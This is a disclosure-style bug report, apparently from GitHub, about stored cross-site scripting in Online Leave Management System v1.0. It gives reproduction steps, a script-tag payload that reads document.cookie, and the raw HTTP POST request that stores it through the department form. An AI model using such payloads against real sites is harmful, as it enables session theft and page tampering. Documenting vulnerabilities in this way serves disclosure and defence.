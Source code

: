 # Online Leave Management System v1.0 by oretnom23 has Stored Cross Site Scripting

BUG_Author: realguoxiufeng

vendors:https://www.sourcecodester.com/php/14910/online-leave-management-system-php-free-source-code.html

### Steps to reproduce

Navigate to Department List "/leave_system/admin/?page=maintenance/department" and Click "Create New"

![image](https://github.com/realguoxiufeng/pic/blob/main/cr.png)

Paste the below payload on Name fields and click save

```
ab<script>alert(document.cookie)</script>cd
```

![image](https://github.com/realguoxiufeng/pic/blob/main/na.png)

Transmission packet

```
POST /leave_system/classes/Master.php?f=save_department HTTP/1.1
Host: localhost
Content-Length: 371
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryQoouFFx1OqtN678U
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://localhost
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost/leave_system/admin/?page=maintenance/department
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: PHPSESSID=reimqvb6otjde4joflmctma8a6
Connection: close

------WebKitFormBoundaryQoouFFx1OqtN678U
Content-Disposition: form-data; name="id"


------WebKitFormBoundaryQoouFFx1OqtN678U
Content-Disposition: form-data; name="name"

ab<script>alert(document.cookie)</script>cd
------WebKitFormBoundaryQoouFFx1OqtN678U
Content-Disposition: form-data; name="description"

abcdef
------WebKitFormBoundaryQoouFFx1OqtN678U--
```

Payload will trigger when a user visits on /leave_system/admin/?page=maintenance/department

![image](https://github.com/realguoxiufeng/pic/blob/main/coo.png)
